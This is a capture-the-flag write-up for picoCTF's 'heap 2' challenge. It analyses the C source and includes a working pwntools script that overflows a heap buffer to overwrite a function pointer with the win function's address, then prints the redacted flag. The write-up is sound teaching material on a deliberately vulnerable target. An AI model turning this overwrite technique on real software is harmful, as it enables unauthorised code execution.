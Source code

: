 # heap 2

```
Level: Medium
Tags: Binary Exploitation, picoCTF 2024, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Can you handle function pointers?

Download the binary here.
Download the source here.
 
Hints:
1. Are you doing the right endianness?
```
Challenge link: [https://play.picoctf.org/practice/challenge/435](https://play.picoctf.org/practice/challenge/435)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
Main basically does the following:
- Initialize the heap by calling the `init` function 
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The big difference compared to the previous heap challenge is that the `check_win` function (menu choice 4) is "empty" and will call the address pointed to from the variable `x`
```c
void check_win() { ((void (*)())*(int*)x)(); }
```

There is also a `win` function that will print the flag for us
```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
file chall               
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5184d264ae0c1259ba3bb7a1e20fc348b4274b0, for GNU/Linux 3.2.0, with debug_info, not stripped

./chall                    

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x49e6b0  ->   pico
+-------------+-----------+
[*]   0x49e6d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
```
As before, the difference between the memory positions is 32 bytes. 
```bash
python -c "print(0x49e6d0 - 0x49e6b0)"                                                 
32
```

The variable `x` is set to `bico` and if we try to print the flag we get a segmentation fault since `x` currently points to an invalid memory address.
```bash
Enter your choice: 3


x = bico


1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 4
zsh: segmentation fault  ./chall

```

### Create an exploitation script

We need to know the memory address of the `win` function in order to call it.
This can be done with `objdump`
```bash
objdump -t chall | grep win
00000000004011f0 g     F .text  0000000000000011              check_win
00000000004011a0 g     F .text  0000000000000042              win
```
So the `win` function is at `0x4011a0`.

Next, we write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to get the flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 56078

# Set output level (critical, error, warning, info, debug)
context.log_level = "info"

io = remote(SERVER, PORT)

# Select menu option 2 (Write to buffer)
io.sendlineafter(b"Enter your choice: ", b'2')

# Send payload
win_func = 0x4011a0
payload = 32 * b'A' + p64(win_func)
io.sendlineafter(b"Data for buffer: ", payload)

# Select menu option 4 (Print Flag)
io.sendlineafter(b"Enter your choice: ", b'4')
print(io.recvallS())
io.close()
```

### Get the flag

Finally, we run the script and get the flag
```bash
~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to mimas.picoctf.net on port 61205: Done
[+] Receiving all data: Done (42B)
[*] Closed connection to mimas.picoctf.net port 61205
picoCTF{<REDACTED>}
```
